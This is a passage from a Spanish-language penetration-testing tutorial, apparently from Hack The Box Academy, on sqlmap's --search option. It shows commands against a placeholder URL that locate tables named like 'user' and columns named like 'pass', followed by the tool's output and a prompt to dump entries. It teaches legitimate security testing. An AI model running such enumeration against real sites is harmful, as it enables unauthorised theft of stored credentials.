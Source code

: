 
# **Buscando datos**

Al tratar con estructuras de bases de datos complejas con numerosas tablas y columnas, podemos buscar bases de datos, tablas y columnas de interés, utilizando el`--search`opción. Esta opción nos permite buscar nombres de identificadores utilizando el`LIKE`operador. Por ejemplo, si estamos buscando todos los nombres de la tabla que contienen la palabra clave`user`, podemos ejecutar SQLMAP de la siguiente manera:

Enumeración avanzada de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n]
...SNIP...

```

En el ejemplo anterior, podemos detectar inmediatamente un par de objetivos de recuperación de datos interesantes basados en estos resultados de búsqueda. También podríamos haber tratado de buscar todos los nombres de columnas en función de una palabra clave específica (por ejemplo,`pass`):

Enumeración avanzada de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
```